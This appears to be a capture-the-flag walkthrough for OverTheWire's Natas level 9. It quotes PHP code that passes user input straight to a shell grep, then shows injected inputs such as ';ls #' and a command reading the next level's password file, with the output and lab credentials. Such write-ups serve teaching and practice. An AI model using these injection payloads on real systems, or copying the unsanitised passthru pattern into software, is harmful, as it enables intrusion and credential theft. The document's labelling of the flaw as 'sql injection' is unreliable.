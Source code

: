 # Natas Level 9

## 🧪 Credentials

- **URL**: `http://natas9.natas.labs.overthewire.org`
- **Username**: `natas9`
- **Password**: `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t`

---

## 🖥️ Steps

1. Login to the website.
2. go for the source. here is the important part. `needle` is the variable which has our input secret. we see that here `passthru("grep -i $key dictionary.txt");` it uses the `$key` to search in the `dictionary.txt`. here is the problem this line of code `grep -i $key dictionary.txt` has a high-level security issue which still today happens alot. i won't deep dive into it cause it's a walkthrough. search `sql injection` in yt you'll know.  
```
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
3. let's say i submit a word like `dog` in the code it'll run `passthru("grep -i dog dictionary.txt");`. now i will submit `;ls #` and in the code it'll be like `passthru("grep -i ;ls # dictionary.txt");`. the `grep -i ;` part will do nothing. it'll run `ls` and the rest has been commented.
4. if you do as i said you'll see this output.
```
Output:

dictionary.txt
index-source.html
index.php
```
5. we know that the password are saved in the `/etc/natas_webpass` dir. so i'll run the `; cat /etc/natas_webpass/natas10 #` to get the pass.
```
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
---
[← Level 08](./level08.md) | [Level 10 →](./level10.md)
